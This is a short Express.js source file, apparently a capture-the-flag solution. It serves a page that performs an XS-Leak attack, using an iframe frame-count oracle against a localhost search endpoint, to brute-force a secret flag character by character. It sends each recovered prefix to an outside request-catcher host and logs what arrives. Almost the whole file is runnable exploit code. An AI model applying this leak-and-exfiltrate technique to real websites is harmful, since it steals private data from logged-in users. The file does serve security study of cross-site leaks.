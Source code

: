 var express = require('express');
var url = require('url');
var app = express();

app.use(express.urlencoded({extended:true}))

app.get('/', (req, res) => {
  param = decodeURI(url.parse(req.url).search).substr(1);
  console.log("/?", param);
  res.send('thx');
});

app.get('/welcome', (req, res) => {
  res.send(`
<iframe id="iframe"></iframe>
<img id="img">
<script>
    async function req(url) {
        return await new Promise((resolve, reject) => {
            const iframe = document.getElementById("iframe");
            iframe.src = url;
            iframe.onload = () => { 
                if (iframe.contentWindow.frames.length != 0)
                    return resolve();
                else
                    return reject();
            };
        });
    }
    async function search(query) {
        try {
            await req('http://localhost:8000/search?query=${query}');
            return true;
        } catch (e) {
            return false;
        }
    }
    async function exploit() {
        let chars = "0123456789abcdef}"
        let secret = "DH{";
        while (!secret.includes("}")) {
            for (let c of chars) {
                if (await search(secret + c)) {
                    secret += c;
                    img.src = 'https://tshiziv.request.dreamhack.games/${secret}';
                    break;
                }
            }
        }
    }
    exploit();
</script>
  `);
});

app.listen(3000, () => {
  console.log('server started');
});
